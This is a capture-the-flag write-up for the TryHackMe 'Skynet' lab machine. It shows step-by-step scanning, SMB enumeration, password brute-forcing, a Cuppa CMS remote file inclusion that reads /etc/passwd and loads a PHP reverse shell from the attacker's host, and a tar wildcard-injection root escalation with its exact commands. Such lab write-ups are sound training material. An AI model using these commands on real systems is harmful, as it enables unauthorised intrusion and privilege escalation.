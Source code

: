 ![Skynet Logo](https://tryhackme-images.s3.amazonaws.com/room-icons/78628bbf76bf1992a8420cdb43e59f2d.jpeg)


```
Machine: Skynet
```

```
Task 1: Are you able to compromise this Terminator themed machine?
```
1. What is Miles password for his emails? => cyborg007haloterminator

	1. Run nmap basic scan with -sc flag to see which ports are open nmap -sc $IP -oN casual.txt
	   ```
	    Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-08 11:41 EST
		Nmap scan report for 10.10.188.103
		Host is up (0.42s latency).
		Not shown: 994 closed ports
		PORT    STATE SERVICE
		22/tcp  open  ssh
		| ssh-hostkey: 
		|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
		|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
		|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
		80/tcp  open  http
		|_http-title: Skynet
		110/tcp open  pop3
		|_pop3-capabilities: UIDL PIPELINING TOP SASL AUTH-RESP-CODE CAPA RESP-CODES
		139/tcp open  netbios-ssn
		143/tcp open  imap
		|_imap-capabilities: IMAP4rev1 capabilities OK LOGINDISABLEDA0001 LOGIN-REFERRALS LITERAL+ more IDLE ENABLE SASL-IR post-login listed ID Pre-login have
		445/tcp open  microsoft-ds
		Host script results:
		|_clock-skew: mean: 2h00m05s, deviation: 3h27m51s, median: 4s
		|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
		| smb-os-discovery: 
		|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
		|   Computer name: skynet
		|   NetBIOS computer name: SKYNET\x00
		|   Domain name: \x00
		|   FQDN: skynet
		|_  System time: 2021-02-08T10:42:14-06:00
		| smb-security-mode: 
		|   account_used: guest
		|   authentication_level: user
		|   challenge_response: supported
		|_  message_signing: disabled (dangerous, but default)
		| smb2-security-mode: 
		|   2.02: 
		|_    Message signing enabled but not required
		| smb2-time: 
		|   date: 2021-02-08T16:42:14
		|_  start_date: N/A
		Nmap done: 1 IP address (1 host up) scanned in 90.79 seconds
	   ```
	2. Lets focus on port 445 and try to map smb using smbmap -H $IP and notice we have ```anonymous``` Login
		```
		[+] Guest session       IP: 10.10.188.103:445   Name: 10.10.188.103                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
        ```
    3. Lets connect to the smb using ```anonymous``` user, mount -t cifs //$IP/anonymous /mnt/share we get following files and folder
    	```
    	attention.txt and logs(folder)
    	```
    4. cd logs and there are three log files named log1.txt, log2.txt and log3.txt lets cat them to see what we can get out of them. log1.txt is only populated and it seems they are password strings.
    5. Lets run a Hydra bruteforce on smb using the passwords we got in step #4 using Hydra -l milesdyson -P log1.txt smb://$IP/milesdyson, it got no success.
    6. Lets focus on web-application and bruteforce dirs using gobuster and dirbusters wordlist.```gobuster dir --url http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt ```
    	```
    	output
    	http://10.10.188.103/squirrelmail/src/login.php => Intresting
    	```
    7. Lets bruteforce password the login form we found in step #6 using BurpSuite
    8. Finally we found answer to the first question that is 'cyborg007haloterminator'

2. What is the hidden directory? => /45kra24zxs28v3yd
 	1. After login with the password we found in last task we found an email that smb password for 'milesdyson' is ')s{A&2Z=F^n_E.B\`' so lets login into it
 		``` output:
 			└─$ ls -al /mnt/skynet2
 			total 48132
 			drwxr-xr-x 2 root root        0 Sep 17  2019  .
 			drwxr-xr-x 4 root root     4096 Feb  8 12:44  ..
 			-rwxr-xr-x 1 root root 19655446 Sep 17  2019 'Convolutional Neural Networks-CNN.pdf'
 			-rwxr-xr-x 1 root root  5743095 Sep 17  2019 'Improving Deep Neural Networks.pdf'
 			-rwxr-xr-x 1 root root 12927230 Sep 17  2019 'Natural Language Processing-Building Sequence Models.pdf'
 			-rwxr-xr-x 1 root root  4304586 Sep 17  2019 'Neural Networks and Deep Learning.pdf'
 			drwxr-xr-x 2 root root        0 Sep 17  2019  notes
 			-rwxr-xr-x 1 root root  3531427 Sep 17  2019 'Structuring your Machine Learning Project.pdf' ```
 	2. In the notes directory we find a text file called important.txt cat it and its output is
 		```
 		1. Add features to beta CMS /45kra24zxs28v3yd
		2. Work on T-800 Model 101 blueprints
		3. Spend more time with my wife
 		```
 	3. Hidden directory is /45kra24zxs28v3yd

3. What is the vulnerability called when you can include a remote file for malicious purposes? => Remote File Inclusion

4. What is the user flag? => ********************************
	1. Let find sub dirs under the newly found directory in step #2 using gobuster. ```gobuster dir --url http://10.10.143.232/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```
		```
		output
		http://10.10.143.232/45kra24zxs28v3yd/administrator/
		```
	2. We find that it is running Cuppa CMS lets use searchsploit to see if there exists a know vulnerability for the same.
	3. cool so we find that it is indeed vulnerable ```Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion``` P.S in other cases it is atmost neccessasory to know the version of the CMS but here we have only one exploit so we will go ahead with this only.
	4. Open the txt file suggested by searchsploit and note down the payloads listed in the file.
	5. Okay so we now know that CMS is vulnerable to RFI lets try to check if it works in our case using curl and following payload
		```
		curl http://10.10.143.232/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
		Response:
		daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
		bin:x:2:2:bin:/bin:/usr/sbin/nologin
		sys:x:3:3:sys:/dev:/usr/sbin/nologin
		sync:x:4:65534:sync:/bin:/bin/sync
		games:x:5:60:games:/usr/games:/usr/sbin/nologin
		man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
		lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        .... 
		```
	6. Now lets try to PWN the machine, I will be using php reverse shell by pentestmonkey you can download it at "https://github.com/pentestmonkey/php-reverse-shell"
	7. we will spwan a local python server and edit the shell file with IP address and Port of our chossing
	8. Lets fire the payload to get a reverse connection ```http://10.10.143.232/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$IP:8000/rev_shell.php```
	9. we now have the shell and the current user is www-data, no lets stabilize the shell using python -c 'import pty; pty.spawn("/bin/bash")'
	10. We finally get the user flag => ********************************

5. What is the root flag? => ********************************
	1. Lets enum the maching using LinPease and see what it has got us to offer it shows under cron job root is excuting a file whit the name backup.sh owned by milesdyson
		```
		*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
		```
	2. The backup.sh for is only has read persmission ```-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh``` so we can not edit it directly
	3. On checking the file we notice something intresting it performs ```tar cf /home/milesdyson/backups/backup.tgz *``` operation and we can here try to exploit wildcard Injection here. P>S: check this artical for more reference "https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/"
	4. I will now be following John Hammond way on setting setuid on the /bin/bash file to get the root instead of going with msfvenom his YT video link is: "https://www.youtube.com/watch?v=HXikLrFVIXc"
	5. Lets go to /var/www/html as suggested by backup.sh and fire follwoing commad to set setuid on the /bin/bash/ so we can just use simple -p to exclate our priveleges.
	6. lets ls -al /bin/bash and notice the permission we don't have it ```-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash```
	7. Now run the following command one by one and wait for a minute for the cron job to run and then we will see the permissions have changed
		```
		printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
		echo "" > "--checkpoint-action=exec=sh shell.sh"
		echo "" > --checkpoint=1
	8. Now lets run ls -al /bin/bash and we notice ```-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash``` setuid is sucessfully added now all we need to do is execute /bin/bash -p 
	9. cd /root dir and cat the root.txt file and you have the root flag ********************************
  
  P.S: Would credit the root flag part [Mr.John Hammond](https://www.youtube.com/watch?v=HXikLrFVIXc) as his way is way simpler then the one suggested on https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
